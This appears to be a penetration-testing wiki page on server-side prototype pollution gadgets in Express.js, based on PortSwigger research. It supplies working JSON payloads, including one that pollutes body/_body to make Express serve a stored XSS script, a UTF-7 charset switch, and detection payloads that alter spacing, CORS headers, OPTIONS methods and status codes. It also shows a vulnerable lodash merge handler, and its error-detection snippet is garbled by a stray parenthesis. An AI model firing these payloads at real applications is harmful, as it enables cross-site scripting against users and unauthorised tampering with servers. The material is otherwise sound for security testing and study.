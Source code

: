 # Express Prototype Pollution Gadgets

## Serve XSS responses

**For further details** [**take a look to the original reserach**](https://portswigger.net/research/server-side-prototype-pollution)

### Change JSON content-type to HTML

In an Express app using a **JSON content type response** and reflecting a JSON:

```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
  _.merge({}, req.body)
  res.send(req.body)
})
```

In these cases XSS isn't normally possible with a JSON content type. However, with prototype pollution we can **confuse Express to serve up an HTML response.** This vulnerability relies on the application using **`res.send(obj)`** and using the body parser with the application/json content type.

```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```

By **polluting** **`body`** and **`_body`** properties, it's possible to cause **Express to serve up the HTML content type** and reflect the `_body` property, resulting in stored XSS.

### Render UTF7

It's possible to make express **render UTF-7 content with**:

```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```

## Safe Scanning Techinques

### JSON spaces

The following PP will make attributes inside a JSON to have an extra space which won't break the functionality:

```json
{ "__proto__": { "json spaces": " " } }
```

Then a reflected JSON will looks like:

```json
{"foo":  "bar"} -- Note the extra space
```

### Exposed Headers

The following PP gadget will make the server send back the HTTP header: **`Access-Control-Expose_headers: foo`**

```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```

It requires the **CORS module to be installed**

### **OPTIONS Method**

With the following payload, it's possible to **hide a method from an OPTIONS response**:

```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```

### **Status**

It's possible to change the **returned status code** using the following PP payload:

```json
{ "__proto__": { "status": 510 } }
```

### Error

When you assign to a prototype with a primitive such as a string, it produces a **no-op operation since the prototype has to be an object**. If you attempt to assign a prototype object to the `Object.prototype` itself, this will **throw an exception**. We can use these two behaviours to **detect if prototype pollution was successful**:

```javascript
;({}).__proto__.__proto__ = {}(
  //throws type exception
  {}
).__proto__.__proto__ = "x" //no-op does not throw exception
```

### Reflected Value

When an application includes an object in its response, creating an attribute with an **unusual name alongside `__proto__`** can be insightful. Specifically, if **only the unusual attribute is returned** in the response, this could indicate the application's vulnerability:

```json
{ "unusualName": "value", "__proto__": "test" }
```

Moreover, in scenarios where a library like Lodash is employed, setting a property both via prototype pollution (PP) and directly inside the object offers another diagnostic approach. If such a property is omitted from the response, it suggests that Lodash is verifying the existence of the property in the target object before merging:

```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```

## Misc

### Allow Dots

There is an option in Express that allows you to **create objects from query string parameters**.\
You could definitely use it in a bug **chain** to exploit a **prototype pollution vulnerability**.

```json
{ "__proto__": { "allowDots": true } }
```

**`?foo.bar=baz` create an object in Node.**

## References

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

